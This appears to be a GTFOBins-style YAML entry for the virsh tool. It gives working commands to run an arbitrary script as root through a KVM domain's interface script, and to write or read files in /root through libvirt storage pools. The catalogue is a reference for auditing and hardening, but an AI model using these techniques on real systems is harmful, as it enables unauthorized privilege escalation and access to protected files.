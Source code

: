 ```yaml
---
functions:
  sudo:
    - code: |
        SCRIPT=script_to_run
        TF=$(mktemp)
        cat > $TF << EOF
        <domain type='kvm'>
          <name>x</name>
          <os>
            <type arch='x86_64'>hvm</type>
          </os>
          <memory unit='KiB'>1</memory>
          <devices>
            <interface type='ethernet'>
              <script path='$SCRIPT'/>
            </interface>
          </devices>
        </domain>
        EOF
        sudo virsh -c qemu:///system create $TF
        virsh -c qemu:///system destroy x
  file-write:
    - description: This requires the user to be in the `libvirt` group to perform privileged file write. If the target directory doesn't exist, `pool-create-as` must be run with the `--build` option. The destination file ownership and permissions can be set in the XML. 
      code: |
        LFILE_DIR=/root
        LFILE_NAME=file_to_write

        echo 'data' > data_to_write

        TF=$(mktemp)
        cat > $TF <<EOF
        <volume type='file'>
          <name>y</name>
          <key>$LFILE_DIR/$LFILE_NAME</key>
          <source>
          </source>
          <capacity unit='bytes'>5</capacity>
          <allocation unit='bytes'>4096</allocation>
          <physical unit='bytes'>5</physical>
          <target>
            <path>$LFILE_DIR/$LFILE_NAME</path>
            <format type='raw'/>
            <permissions>
              <mode>0600</mode>
              <owner>0</owner>
              <group>0</group>
            </permissions>
          </target>
        </volume>
        EOF

        virsh -c qemu:///system pool-create-as x dir --target $LFILE_DIR
        virsh -c qemu:///system vol-create --pool x --file $TF
        virsh -c qemu:///system vol-upload --pool x $LFILE_DIR/$LFILE_NAME data_to_write
        virsh -c qemu:///system pool-destroy x
  file-read:
    - description: This requires the user to be in the `libvirt` group to perform privileged file read.
      code: |
        LFILE_DIR=/root
        LFILE_NAME=file_to_read

        SPATH=file_to_save

        virsh -c qemu:///system pool-create-as x dir --target $LFILE_DIR
        virsh -c qemu:///system vol-download --pool x $LFILE_NAME $SPATH
        virsh -c qemu:///system pool-destroy x
---
```


